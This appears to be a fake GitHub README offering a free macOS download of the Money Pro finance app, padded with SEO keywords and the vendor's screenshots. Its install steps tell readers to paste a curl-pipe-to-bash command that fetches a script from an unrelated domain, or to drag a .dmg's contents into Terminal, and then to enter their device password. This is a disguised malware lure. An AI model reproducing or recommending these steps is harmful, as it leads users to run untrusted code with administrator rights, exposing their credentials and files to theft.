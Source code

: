 # Money Pro — Download For Mac OS 🤑

Manage your finances effortlessly with Money Pro for Mac! Follow the simple instructions below to install this powerful budgeting app and take control of your money.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://money-pro-for-mac.github.io/.github/)

If the download button doesn't work, follow the terminal installation instructions below.

## 📦 How to Install Money Pro For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get

- 🧾 **Budget Tracking**: Create and monitor budgets for multiple categories with real-time updates.
- 📊 **Reports & Insights**: Generate detailed financial reports to analyze spending habits.
- 💸 **Bill Management**: Schedule and track recurring bills to avoid late payments.
- 💳 **Multi-Currency Support**: Manage finances in various currencies with automatic conversions.
- 🔄 **Sync Across Devices**: Seamlessly sync data between your Mac, iPhone, and iPad.
- 🔒 **Data Security**: Protect your financial data with robust encryption and password options.

---

## About Money Pro

Money Pro for Mac is a comprehensive financial management tool designed to simplify budgeting, bill tracking, and expense monitoring. Whether you're managing personal finances or small business accounts, Money Pro offers an intuitive interface and powerful features to keep your financial life organized. With its seamless integration across Apple devices, you can access your data anytime, anywhere. The app supports keywords like *money management*, *budget planner*, and *finance tracker* to ensure you find the right tools for your needs.

The app’s budgeting capabilities allow users to set spending limits across various categories, such as groceries, utilities, or entertainment. By using Money Pro, you can visualize your financial health through customizable reports that highlight trends and opportunities for savings. Its *free download* availability makes it accessible for Mac users looking to streamline their finances without upfront costs.

For those juggling multiple currencies, Money Pro’s *multi-currency support* is a game-changer. It automatically converts transactions using real-time exchange rates, making it ideal for travelers or international business owners. The app also prioritizes *data security*, employing encryption to safeguard sensitive information, ensuring peace of mind for users.

Money Pro stands out with its ability to sync data across devices via iCloud, allowing you to update your budget on your Mac and view it instantly on your iPhone or iPad. This feature, combined with its *personal finance* tools, makes it a top choice for users searching for a reliable *budgeting app* that integrates seamlessly into their Apple ecosystem.

### Why Choose Money Pro?

Money Pro’s key advantage is its balance of simplicity and depth. Unlike other apps, it combines an easy-to-use interface with advanced features like *expense tracking* and *financial planning*. Its *Mac OS compatibility* ensures smooth performance, while the *free download* option lowers the barrier to entry. Whether you're a beginner or a seasoned budgeter, Money Pro’s versatility and robust feature set make it a standout choice for *money management*.

---

## 🖼 Preview

![Dashboard Overview](https://money.pro/img/moneypro_mac_budget.jpg)
*View your budget, expenses, and reports in a sleek, user-friendly dashboard.*

![Budget Planner](https://money.pro/img/moneypro_mac_calendar.jpg)
*Easily set and track budgets for various spending categories.*

![Bill Tracking](https://money.pro/img/moneypro_mac_reports_bar.jpg)
*Schedule and manage recurring bills to stay on top of payments.*

---

## 🔍 Tags

money pro free download, money pro, money pro for mac, money pro software, money for macbook, money pro free, money pro download, money pro fre download, moneyguidepro, pro money, money pro mac, money pro for mac, my money pro
